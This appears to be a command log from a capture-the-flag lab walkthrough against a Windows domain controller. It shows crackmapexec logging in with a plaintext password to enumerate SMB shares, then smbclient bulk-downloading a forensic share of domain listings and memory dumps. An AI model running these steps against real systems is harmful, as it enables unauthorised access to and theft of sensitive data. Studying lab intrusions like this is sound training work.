 
$ crackmapexec smb 10.129.155.211 -d blackfield.local -u audit2020 -p 'Qwerty1!' --shares
SMB         10.129.155.211  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:blackfield.local) (signing:True) (SMBv1:False)
SMB         10.129.155.211  445    DC01             [+] blackfield.local\audit2020:Qwerty1! 
SMB         10.129.155.211  445    DC01             [+] Enumerated shares
SMB         10.129.155.211  445    DC01             Share           Permissions     Remark
SMB         10.129.155.211  445    DC01             -----           -----------     ------
SMB         10.129.155.211  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.155.211  445    DC01             C$                              Default share
SMB         10.129.155.211  445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.155.211  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.155.211  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.155.211  445    DC01             profiles$       READ            
SMB         10.129.155.211  445    DC01             SYSVOL          READ            Logon server share 


$ smbclient \\\\10.129.155.211\\forensic -U audit2020
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

                5102079 blocks of size 4096. 1687478 blocks available
smb: \> prompt off
smb: \> recurse
smb: \> mget *
getting file \commands_output\domain_admins.txt of size 528 as commands_output/domain_admins.txt (7.8 KiloBytes/sec) (average 7.8 KiloBytes/sec)
getting file \commands_output\domain_groups.txt of size 962 as commands_output/domain_groups.txt (13.8 KiloBytes/sec) (average 10.9 KiloBytes/sec)
getting file \commands_output\domain_users.txt of size 16454 as commands_output/domain_users.txt (229.5 KiloBytes/sec) (average 85.9 KiloBytes/sec)
getting file \commands_output\firewall_rules.txt of size 518202 as commands_output/firewall_rules.txt (3244.0 KiloBytes/sec) (average 1454.4 KiloBytes/sec)
getting file \commands_output\ipconfig.txt of size 1782 as commands_output/ipconfig.txt (23.5 KiloBytes/sec) (average 1210.4 KiloBytes/sec)
getting file \commands_output\netstat.txt of size 3842 as commands_output/netstat.txt (51.4 KiloBytes/sec) (average 1043.5 KiloBytes/sec)
getting file \commands_output\route.txt of size 3976 as commands_output/route.txt (58.0 KiloBytes/sec) (average 928.5 KiloBytes/sec)
getting file \commands_output\systeminfo.txt of size 4550 as commands_output/systeminfo.txt (57.0 KiloBytes/sec) (average 824.2 KiloBytes/sec)
getting file \commands_output\tasklist.txt of size 9990 as commands_output/tasklist.txt (126.7 KiloBytes/sec) (average 750.6 KiloBytes/sec)
getting file \memory_analysis\conhost.zip of size 37876530 as memory_analysis/conhost.zip (12508.9 KiloBytes/sec) (average 10183.4 KiloBytes/sec)
getting file \memory_analysis\ctfmon.zip of size 24962333 as memory_analysis/ctfmon.zip (10048.3 KiloBytes/sec) (average 10129.8 KiloBytes/sec)
getting file \memory_analysis\dfsrs.zip of size 23993305 as memory_analysis/dfsrs.zip (11519.6 KiloBytes/sec) (average 10476.8 KiloBytes/sec)
getting file \memory_analysis\dllhost.zip of size 18366396 as memory_analysis/dllhost.zip (8280.7 KiloBytes/sec) (average 10015.5 KiloBytes/sec)
